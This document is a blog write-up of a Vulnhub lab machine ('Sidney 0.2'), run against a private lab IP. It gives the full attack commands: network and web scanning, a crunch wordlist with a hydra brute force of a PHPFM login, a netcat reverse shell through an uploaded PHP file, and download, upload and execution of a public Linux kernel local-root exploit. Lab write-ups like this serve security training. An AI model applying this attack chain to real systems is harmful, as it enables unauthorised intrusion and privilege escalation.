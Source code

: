 ```yaml
---
layout: post
title: "Sidney:0.2"
date: 2016-07-27 10:23:04 -0500
comments: true
categories: [vulhub, phpfm]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* Burp Suite
* Hydra


###Vulnerabilities:
* [PHPFM Arbitrary File Upload](https://www.exploit-db.com/exploits/26474/)
* [Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' in bpf(BPF_PROG_LOAD) Local Root Exploit](https://www.exploit-db.com/exploits/39772/)


<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/sidney2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.153 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.153 -p-`

{% img  /images/blog/vulhub/sidney2/Selection_002.png   [title manually exploit [alt text]] %}

Only port 80 is opening.

use nikto to scan

`nikto -h 192.168.41.153`	

No useful info come out.

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.153/FUZZ 2>/dev/null
```

still same thing.

check the http://192.168.41.153, find a picture, 


{% img  /images/blog/vulhub/sidney2/Selection_003.png   [title manually exploit [alt text]] %}

check the picture info:

{% img  /images/blog/vulhub/sidney2/Selection_004.png   [title manually exploit [alt text]] %}

find a path:  `http://192.168.41.153/commodore64/`

now use nikto to scan that path,

`nikto -h http://192.168.41.153/commodore64/`

{% img  /images/blog/vulhub/sidney2/Selection_005.png   [title manually exploit [alt text]] %}

find an interesting file `index.php`,

check that file,


{% img  /images/blog/vulhub/sidney2/Selection_006.png   [title manually exploit [alt text]] %}

get the login page, and the CMS seems PHPFM

`searchsploit PHPFM`

find a PHPFM Arbitrary File Upload, now I need to find a way to upload the shell. First, I have to get the access to the PHPFM

In `http://192.168.41.153/commodore64`, I found:

{% img  /images/blog/vulhub/sidney2/Selection_007.png   [title manually exploit [alt text]] %}

I will try `robhubbard` as username. Password a C64 sound chip lowercase 3letters4digits without spaces... After checking wikipedia and more sites, seems that MOS is one of the sound chips (3 letters) Time to make our dictionary with MOS + 4 numbers and minimum+maximum of 7 words.

`crunch 7 7 -t mos%%%% > test.txt`

before using hydra to crack password, I use Burp to get incorrect login response,

{% img  /images/blog/vulhub/sidney2/Selection_008.png   [title manually exploit [alt text]] %}


```
hydra -l robhubbard -P test.txt 192.168.41.153 http-post-form "/commodore64/index.php:input_username=^USER^&input_password=^PASS^:Login" -V
```

get the password `mos6518`

{% img  /images/blog/vulhub/sidney2/Selection_009.png   [title manually exploit [alt text]] %}


login, get the page:

{% img  /images/blog/vulhub/sidney2/Selection_010.png   [title manually exploit [alt text]] %}

set up netcat and go to `http://192.168.41.153/commodore64/reverse.php`

get the shell:

{% img  /images/blog/vulhub/sidney2/Selection_011.png   [title manually exploit [alt text]] %}

Since the Linux kernel version here is 4.4.0

`searchsploit 4.4 | grep linux`

exploit found `Linux Kernel 4.4.x (Ubuntu 16.04) - double-fdput() in bpf(BPF_PROG_LOAD) Local Root Exploit`


In Kali:

```
wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/39772.zip
cp 39772.zip /var/www/html/
```

In target:

upload the 39772.zip via phpfm, in the shell

`find / -name 39772.zip`

shows the file in `/var/www/html/commodore64/`

```
cd  /var/www/html/commodore64/
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```
get the root:

{% img  /images/blog/vulhub/sidney2/Selection_012.png   [title manually exploit [alt text]] %}